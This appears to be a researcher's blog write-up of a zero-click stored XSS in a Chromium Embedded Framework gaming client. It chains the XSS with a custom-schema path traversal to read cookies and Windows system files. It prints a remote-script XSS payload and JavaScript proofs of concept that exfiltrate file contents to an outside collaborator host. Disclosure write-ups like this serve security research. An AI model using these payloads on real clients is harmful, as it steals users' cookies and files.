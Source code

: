 # How did I break out of the sandbox using built-in feature

One day I decided to test a famous gaming company’s desktop client (Sadly they haven’t fixed it yet :( ), and I ended up finding a 0Click System File Read

## About the target:

It is a desktop client using Chromium Embedded Framework https://github.com/chromiumembedded/cef for rendering all the HTML/JS files, and it is used to help users (Gamers) install their games and track progress on each game.

## Chat feature and useless XSS in notification:

While spraying payloads around the desktop client, I stumbled on a stored XSS that gets rendered on the notification pop-up.

Briefly, this XSS wasn’t that useful because the client is storing cookies on files and the there’s a limitation on the vulnerable input (30 characters) payload like this would work `<script src=https://lol5.xyz/>`

## Failed attempt finding 1Days on CEF library:

After reading every page on the library’s wiki 

[cef /](https://bitbucket.org/chromiumembedded/cef/wiki/browse/)

and trying some of CVE’s  POCs in order to achieve code execution or DOS, all attempts finished with frustration and failure.

And the most frustrating part is the framework’s javascript API is so sandboxed and limited that I can’t call for example`file://` from object and iframe tags.

## PAK files for the truth:

After a day I went back and tried to analyze the client and its features, while exploring some of the client file, I noticed some`.PAK` files, for those who can’t get what is happening  from my experience with pentesting thick clients, usually PAK files are used to store static files that could be rendered on the application.

Extracted the files and read some of HTML files and js files, here something caught my attention which was code that looked like this:

```html
<style>
  @import url("schema://localhost/cache/sytle.css") ;
</style>
```

## How static files are server to the client:

From my understanding of the pak files and how the client is functioning and visualized the flow with this modest design 😑.

![uply.png](How%20did%20I%20break%20out%20of%20the%20sandbox%20using%20built-in%20%20a70e3f37f0ee428389062355f2dfc3e9/uply.png)

the question here is how I used this to my advantage?

When I saw this I had a theory of using the schema to retrieve the cookies from client’s files.

I made a POC that looks like this :

```jsx
Promise.all(   fetch('schema://localhost/cache/style.css').then(x => x.text())  ).then((sampleResp) => {   document.location='http://3w0v6pygzk4cbjxec4qdnlja41avyk.oastify.com/?payload='+sampleResp;  });
```

Then went to the vulnerable input and put my payload `<script src=https://[lol5.xyz](http://lol5.xyz)/>`  where lol5.xyz is a local domain where I’m hosting the POC, and I was able to retrieve the css file.

after this, I went for the cookies and I got success.

But I didn’t stop here, I remembered that the client asks for admin privileges when opening it.

then I tried to traverse back to the system files, I made a POC :

```jsx
Promise.all(   fetch('schema://localhost/cache/../../../../../Windows/LogAdmins.txt').then(x => x.text())  ).then((sampleResp) => {   document.location='http://3w0v6pygzk4cbjxec4qdnlja41avyk.oastify.com/?payload='+sampleResp;  });
```

Since my computer is linked to an AD that’s why I aimed for the `LogAdmins.txt` , finally I was able to retrieve LogAdmins.txt file. 

![loool.png](How%20did%20I%20break%20out%20of%20the%20sandbox%20using%20built-in%20%20a70e3f37f0ee428389062355f2dfc3e9/loool.png)

funny thing is that XSS requires no user interaction and I can execute it on any user using this desktop client.
